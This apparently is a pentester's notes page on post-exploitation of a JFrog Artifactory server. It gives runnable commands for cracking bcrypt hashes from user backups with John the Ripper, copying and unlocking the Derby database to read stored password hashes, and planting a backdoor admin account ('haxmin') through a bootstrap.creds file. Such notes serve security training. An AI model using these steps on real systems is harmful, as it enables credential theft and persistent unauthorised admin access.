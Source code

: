 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: test
---
```

<span style="font-size: 35px; color:red"><b>Artifactory</b></span>

<span style="color:red">Binary Repository Manager</span> that stores software packages and other binaries installed in <span style="color:red">/opt/jfrog</span>. If it's running, it will run as webserver on port 8082 locally or port 8081 remotely.
To prevents developers from getting untrusted or unstable binaries directly from the Internet.

To Start:
```shell
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```

To see whether an Artifactory repo is running on the system:
```shell
ps aux | grep artifactory
```

Login page at <span style="color:red">http://<domain>:8082/</span>.

&nbsp;
<span style="font-size: 25px; color:white"><b>Credentials</b></span>
The open-source version of Artifactory creates database backups for the user accounts at /<Artifactory_Folder>/var/backup/access in JSON format.
The password is in bcrypt format and can be cracked as follows:
```shell
sudo john derbyhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
&nbsp;
<span style="font-size: 25px; color:white"><b>Compromising Artifactory Database</b></span>
If there are no backup files available, we can access the database itself or attempt to copy it and extract the hashes manually.
Copy the database to a temporary location and unlock it:
```shell
sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb
sudo chmod 755 /tmp/hackeddb/derby
sudo rm /tmp/hackeddb/derby/*.lck
```

If it's using Apache's Derby, install Apache's derby tools. <span style="color:red">ij</span> tool allows you to handle the database and query it:
```shell
sudo /opt/jfrog/artifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
```
From there:
```shell
select * from access_users;
```
and you'll see the passwords.
&nbsp;
<span style="font-size: 25px; color:white"><b>Adding a Secondary Artifactory Admin Account</b></span>
This method requires write access to the /opt/jfrog/artifactory/var/etc/access folder and the ability to change permissions on the newly-created file, which usually requires _root_ or _sudo_ access.
In there, create a `bootstrap.creds` like so:
```shell
haxmin@*=haxhaxhax
```
creating a new user <span style="color:red">haxmin</span> with password <span style="color:red">haxhaxhax</span>. Set permissions to 600:
```shell
sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
```
Now reboot the process:
```shell
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```

To check if everything went smooth:
```shell
sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
```
